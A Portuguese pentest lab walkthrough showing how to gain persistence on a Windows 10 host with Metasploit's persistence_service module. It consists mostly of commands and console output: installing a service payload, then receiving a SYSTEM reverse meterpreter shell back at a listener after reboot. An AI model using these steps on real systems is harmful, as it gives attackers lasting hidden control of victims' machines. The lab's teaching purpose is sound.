 # Persistência

Objetivo: **garantir que o atacante (no caso, o pentester)** consiga **retomar o acesso ao sistema comprometido mesmo após um reboot, logoff do usuário ou encerramento da sessão inicial**.

## Procura e seleção do exploit
```
msf > search persistence -S windows

Matching Modules
================

   #   Name                                                       Disclosure Date  Rank       Check  Description
   -   ----                                                       ---------------  ----       -----  -----------
   1   exploit/windows/local/ps_wmi_exec                          2012-08-19       excellent  No     Authenticated WMI Exec via Powershell
   9   exploit/windows/local/linqpad_deserialization_persistence  2024-12-03       normal     Yes    LINQPad Deserialization Exploit
   24    \_ target: Windows                                       .                .          .      .
   25  exploit/windows/local/vss_persistence                      2011-10-21       excellent  No     Persistent Payload in Windows Volume Shadow Copy
   28  post/windows/manage/sshkey_persistence                     .                good       No     SSH Key Persistence
   36  post/windows/manage/sticky_keys                            .                normal     No     Sticky Keys Persistence Module
   39  exploit/windows/local/wmi_persistence                      2017-06-06       normal     No     WMI Event Subscription Persistence
   40  post/windows/gather/enum_ad_managedby_groups               .                normal     No     Windows Gather Active Directory Managed Groups
   41  post/windows/manage/persistence_exe                        .                normal     No     Windows Manage Persistent EXE Payload Installer
   42  exploit/windows/local/s4u_persistence                      2013-01-02       excellent  No     Windows Manage User Level Persistent Payload Installer
   43  exploit/windows/local/persistence                          2011-10-19       excellent  No     Windows Persistent Registry Startup Payload Installer
   44  exploit/windows/local/persistence_service                  2018-10-20       excellent  No     Windows Persistent Service Installer
   45  exploit/windows/local/registry_persistence                 2015-07-01       excellent  Yes    Windows Registry Only Persistence
   46  exploit/windows/local/persistence_image_exec_options       2008-06-28       excellent  No     Windows Silent Process Exit Persistence


Interact with a module by name or index. For example info 51, use 51 or use exploit/linux/local/motd_persistence
```
Neste exemplo iremos usar o **exploit/windows/local/persistence_service**

> Description:
>  This Module will generate and upload an executable to a remote host, next will make it a persistent service.
>  It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
```
msf > use exploit/windows/local/persistence_service
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```
## Configuração
```
msf exploit(windows/local/persistence_service) > show options

Module options (exploit/windows/local/persistence_service):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   REMOTE_EXE_NAME                       no        The remote victim name. Random string as defa
                                                   ult.
   REMOTE_EXE_PATH                       no        The remote victim exe path to run. Use temp d
                                                   irectory as default.
   RETRY_TIME           5                no        The retry time that shell connect failed. 5 s
                                                   econds as default.
   SERVICE_DESCRIPTION                   no        The description of service. Random string as
                                                   default.
   SERVICE_NAME                          no        The name of service. Random string as default
                                                   .
   SESSION                               yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none
                                        )
   LHOST     192.168.1.10     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows
```
Verificando a sessão aberta com privilégio system (requisito)
```
msf exploit(windows/local/persistence_service) > show sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN10-  192.168.1.10:5555 -> 192.168.
                                     22H2                          1.41:49778 (192.168.1.41)
```
Engajando a sessão
```
msf exploit(windows/local/persistence_service) > set SESSION 2
SESSION => 2
```
A porta de comunicação é a 5555 (ver 02 - Escalando privilégio). É preciso alterá-la
```
msf exploit(windows/local/persistence_service) > set LPORT 5555
LPORT => 5555
```
## Execução
```
msf exploit(windows/local/persistence_service) > run
[*] Started reverse TCP handler on 192.168.1.10:5555 
[*] Running module against WIN10-22H2
[+] Meterpreter service exe written to C:\Users\user\AppData\Local\Temp\qmkgqXB.exe
[*] Creating service sTdgb
[*] Cleanup Meterpreter RC File: /home/OpsShadow/.msf4/logs/persistence/WIN10-22H2_20250904.3035/WIN10-22H2_20250904.3035.rc
[*] Sending stage (177734 bytes) to 192.168.1.41
[*] Meterpreter session 3 opened (192.168.1.10:5555 -> 192.168.1.41:49797) at 2025-09-04 20:30:38 -0300
```
Aberta a sessão 3 no meterpreter. Caso o sistema alvo seja reinicializado, poderemos reconectar diretamente a conta SYSTEM.
```
msf exploit(windows/local/persistence_service) > show sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN10-  192.168.1.10:5555 -> 192.168.
                                     22H2                          1.41:49778 (192.168.1.41)
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN10-  192.168.1.10:5555 -> 192.168.
                                     22H2                          1.41:49797 (192.168.1.41)
```
Executando um shutdown da máquina alvo:
```
meterpreter > shutdown
Shutting down...
meterpreter > [*] 192.168.1.41 - Meterpreter session 4 closed.  Reason: Died
[*] 192.168.1.41 - Meterpreter session 14 closed.  Reason: Died
[*] 192.168.1.41 - Meterpreter session 27 closed.  Reason: Died
```
```
msf exploit(windows/local/persistence_service) > show sessions

Active sessions
===============

No active sessions.
```
Nenhuma sessão ativa, uma vez que a máquina desligou...

Com a execução de um listenner, quando a máquina alvo reiniciar, teremos acesso com privilégio SYSTEM. Tem que usar a mesma porta do exploit de persistência, nesse caso 5555.
```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:5555 
[*] Sending stage (177734 bytes) to 192.168.1.41
[*] Meterpreter session 1 opened (192.168.1.10:5555 -> 192.168.1.41:49672) at 2025-09-05 01:05:57 -0300

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > shell
Process 1032 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19045.2965]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>exit
exit

meterpreter > background
[*] Backgrounding session 1...
```
A sessão é criada com o boot da máquina alvo:
```
msf exploit(multi/handler) > show sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN10-  192.168.1.10:5555 -> 192.168.
                                     22H2                          1.41:49671 (192.168.1.41)
```
Ataque bem sucedido. Não é necessário mais fazer o exploitations e escalar privilégios, basta escutar a rede.
